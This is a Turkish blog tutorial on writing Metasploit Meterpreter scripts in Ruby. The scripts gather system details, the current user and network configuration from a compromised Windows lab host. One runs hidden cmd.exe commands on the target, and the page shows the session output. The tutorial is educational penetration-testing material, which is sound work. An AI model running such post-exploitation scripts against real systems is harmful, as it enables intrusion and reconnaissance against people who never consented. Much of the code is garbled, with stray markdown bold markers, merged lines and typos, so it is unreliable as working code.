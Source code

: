 ```yaml
---
draft: false

title:  'MSF Meterpreter Script Düzenleme'
date: '2017-06-14T13:49:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve\_helloworld.rb\_olarak\_/usr/share/metasploit-framework/scripts/meterpreter\_klasörüne kayıt edelim." 
 
url:  /tr/msf-meterpreter-script-duzenleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Script Yazma



Meterpreter Scriptin nasıl bir yapı olduğunu önceki iki yazımızda kısaca gördük. Şimdi, kodların ne sonuç döndürdüğünü parça parça görelim. Bunun için “Hello World” ruby kodu yazalım ve `helloworld.rb` olarak `/usr/share/metasploit-framework/scripts/meterpreter` klasörüne kayıt edelim.


```bash
root@kali:~# echo “print_status**(**“Hello World”**)**” **>** /usr/share/metasploit-framework/scripts/meterpreter/helloworld.rb
```



Oluşturduğumuz script kodunu meterpreter oturum açık iken çalıştıralım.


```bash
meterpreter **>** run helloworld
**[*********]** Hello World
meterpreter **>**
```



Basit bir Ruby kodunu, meterpreter içinde çalıştırmış olduk. Şimdi ise bir kaç API çağrısını `helloworld.rb` dosyamızın içine ekleyelim. Aşağıdaki satırları, metin editör kullanarak ekleyebilirsiniz.


```bash
print_error**(**“this is an error!”**)**
print_line**(**“this is a line”**)**
```



Yukarıdaki satırlar, standart veri girişi ve hata mesajları için kullanıma bir örnek oluşturmaktadır. Oluşturduğumuz kodları çalıştıralım.


```bash
meterpreter **>** run helloworld
**[*********]** Hello World
**[**-] this is an error!
this is a line
meterpreter **>**
```



## helloworld.rb



Script kod dosyamız en son olarak aşağıdaki gibi olmalıdır.


```bash
print_status("Hello World")
print_error("this is an error!")
print_line("This is a line")
```



Şimdi kodumuza bir fonksiyon ekleyelim. Bu fonksiyonda, bir kaç temel bilgi elde edeceğiz ve hata kontrol özelliği ekleyeceğiz. Oluşturacağımız mimarinin yapısı aşağıdaki gibi olacaktır.


```bash
 def geninfo**(**session**)**
    begin
    …..
    rescue ::Exception **=>** e
    …..
    end
 end
```



Bu yapıyı oluşturmak için dosyayı aşağıdaki şekilde düzenlemeniz yeterlidir. Bu düzenlemeleri yaptıktan sonra `helloworld.rb` dosyamızın içeriği aşağıdaki gibi olacaktır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print_status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
    rescue ::Exception **=>** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end
```



Bu kodların ne işlem yaptığını adım adım açıklayalım. Öncelikle, değerleri `session` değişkeninden alan `getinfo(session)` isimli bir foksiyon tanımladık. Bu session değişkeni, bir takım metodları ihtiva etmektedir. `sysnfo = session.sys.config.sysinfo` satırı sistem bilgisini getirirken `runpriv = session.sys.config.getuid` kullanıcı bilgisini elde etmekte kullanılmaktadır. Ayrıca, hata durumlarını yönetici istisna yöneticisi bulunmaktadır.



## helloworld2.rb



İlk oluşturduğumuz dosyaya ufak bir ilave yaparak `helloworld2.rb` dosyası üretelim. `helloworld2.rb` dosyası, az önce oluşturduğumuz dosyanın sonuna getinfo(client) satırının eklenmiş halidir. Bu satırı ekleyip dosyayı `helloworld2.rb` olarak kayıt edelim. Dosyanın son hali aşağıdaki gibi olmalıdır.


```bash
 def getinfo**(**session**)**
    begin
       sysnfo **=** session.sys.config.sysinfo
       runpriv **=** session.sys.config.getuid
       print_status**(**"Getting system information ..."**)**
       print_status**(**"tThe target machine OS is #{sysnfo['OS']}"**)**
       print _status**(**"tThe computer name is #{'Computer'} "**)**
       print_status**(**"tScript running as #{runpriv}"**)**
 rescue ::Exception **=>** e
       print_error**(**"The following error was encountered #{e}"**)**
    end
 end

 getinfo**(**client**)**
```



Şimdi hazırladığımız `helloworld2.rb` dosyamızı Meterpreter oturumunda çalıştıralım.


```bash
 meterpreter **>** run helloworld2
 **[*********]** Getting system information ...
 **[*********]**     The target machine OS is Windows XP **(**Build 2600, Service Pack 3**)**.
 **[*********]**     The computer name is Computer
 **[*********]**     Script running as WINXPVM01labuser
```



Gördüğünüz gibi `helloworld2.rb` scripti ile bir takım sistem bigilerini ele etmiş olduk.



## helloworld3.rb



Yukarıda oluşturduğumuz iki örnek kod dosyasından sonra şimdi başka bir örnek scripte bakalım. Bu script dosyasını metin editorü ile oluşturabilirsiniz. İçeriği aşağıdaki gibi olmalıdır.


```bash
def list_exec**(**session,cmdlst**)**
    print_status**(**"Running Command List ..."**)**
    r**=**''
    session.response_timeout**=**120
    cmdlst.each **do** |cmd|
       begin
          print_status "running command #{cmd}"
          r **=** session.sys.process.execute**(**"cmd.exe /c #{cmd}", nil, **{**'Hidden' **=>** true, 'Channelized' **=>** true**})**
          **while****(**d **=** r.channel.read**)**             print_status**(**"t#{d}"**)**
          end
          r.channel.close
          r.close
       rescue ::Exception **=>** e
          print_error**(**"Error Running Command #{cmd}: #{e.class} #{e}"**)**
       end
    end
 end commands **=** **[** "set",
    "ipconfig  /all",
    "arp -a"**]** list_exec**(**client,commands**)**
```



Yukarıdaki kodların ne işlemler yaptığına kısaca bakalım. Öncelikle, `list_exec` isimli bir fonksiyon tanımlanmıştır. Bu fonksiyon, `session` ve `cmdlist` isimli iki değişken almaktadır. `cmdlist` değişkeninin array yöntemiyle bir dizi komutlar olduğu, kodlardan anlaşılmaktadır. Bu komutlar, sırayla değişkenden alınacak `cmd.exe` üzerinden hedef sistemde çalıştırılacaktır. Sistemin donma ve tepkisiz kalma durumunu önlemek için `session.response_timeout=120` 120 saniye bekleme süresi tanımlanmıştır. Önceki script kodunda olduğu gibi hata kontrol satırı da bulunmaktadır.



`cmdlist` dizi değişkeni aslında aşağıda gösterilen komutları sırayla çalıştırmaktadır.


```bash
 commands **=** **[** “set”,
    “ipconfig  /all”,
    “arp –a”]
```



Komutların sonunda da oluşturduğumuz fonksiyonu çalıştırma satırı `list_exec(client,commands)` bulunmaktadır.



Şimdi oluşturduğumuz yeni helloworld3.rb script kodunu Meterpreter oturumu içinde çalıştıralım.


```bash
 meterpreter **>** run helloworld3
 **[*********]** Running Command List ...
 **[*********]**     running command set
 **[*********]**     ALLUSERSPROFILE**=**C:\Documents and Settings\All Users
 APPDATA**=**C:\Documents and Settings\P0WN3D\Application Data
 CommonProgramFiles**=**C:\Program Files\Common Files
 COMPUTERNAME**=**TARGET
 ComSpec**=**C:\WINNT\system32\cmd.exe
 HOMEDRIVE**=**C:
 HOMEPATH**=**
 LOGONSERVER**=**TARGET
 NUMBER_OF_PROCESSORS**=**1
 OS**=**Windows_NT
 Os2LibPath**=**C:\WINNT\system32\os2dll;
 Path**=**C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
 PATHEXT**=**.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
 PROCESSOR_ARCHITECTURE**=**x86
 PROCESSOR_IDENTIFIER**=**x86 Family 6 Model 7 Stepping 6, GenuineIntel
 PROCESSOR_LEVEL**=**6
 PROCESSOR_REVISION**=**0706
 ProgramFiles**=**C:\Program Files
 PROMPT**=**$P$G
 SystemDrive**=**C:
 SystemRoot**=**C:\WINNT
 TEMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 TMP**=**C:\DOCUME~1\P0WN3D\LOCALS~1\Temp
 USERDOMAIN**=**TARGET
 USERNAME**=**P0WN3D
 USERPROFILE**=**C:\Documents and Settings\P0WN3D
 windir**=**C:\WINNT **[*********]**     running command ipconfig  /all
 **[*********]**     
 Windows 2000 IP Configuration Host Name . . . . . . . . . . . . : target
 Primary DNS Suffix  . . . . . . . : 
 Node Type . . . . . . . . . . . . : Hybrid
 IP Routing Enabled. . . . . . . . : No
 WINS Proxy Enabled. . . . . . . . : No
 DNS Suffix Search List. . . . . . : localdomain Ethernet adapter Local Area Connection: Connection-specific DNS Suffix  . : localdomain
 Description . . . . . . . . . . . : VMware Accelerated AMD PCNet Adapter
 Physical Address. . . . . . . . . : 00-0C-29-85-81-55
 DHCP Enabled. . . . . . . . . . . : Yes
 Autoconfiguration Enabled . . . . : Yes
 IP Address. . . . . . . . . . . . : 172.16.104.145
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 172.16.104.2
 DHCP Server . . . . . . . . . . . : 172.16.104.254
 DNS Servers . . . . . . . . . . . : 172.16.104.2
 Primary WINS Server . . . . . . . : 172.16.104.2
 Lease Obtained. . . . . . . . . . : Tuesday, August 25, 2009 10:53:48 PM
 Lease Expires . . . . . . . . . . : Tuesday, August 25, 2009 11:23:48 PM **[*********]**     running command arp -a
 **[*********]**     
 Interface: 172.16.104.145 on Interface 0x1000003
 Internet Address      Physical Address      Type
 172.16.104.2          00-50-56-eb-db-06     dynamic   
 172.16.104.150        00-0c-29-a7-f1-c5     dynamic    meterpreter **>**
```



Gördüğünüz gibi, Ruby kodlarıyla script oluşturmak aslında çok kolay. İlk başta kodlar biraz karışık gelebilir ancak mevcut koldarı biraz çalıştığınızda aşinalık kazanacaksınız. Devamında yapmanız gereken, kod örneklerinden faydalanarak kendi script dosyanızı oluşturmak ve denemektir.
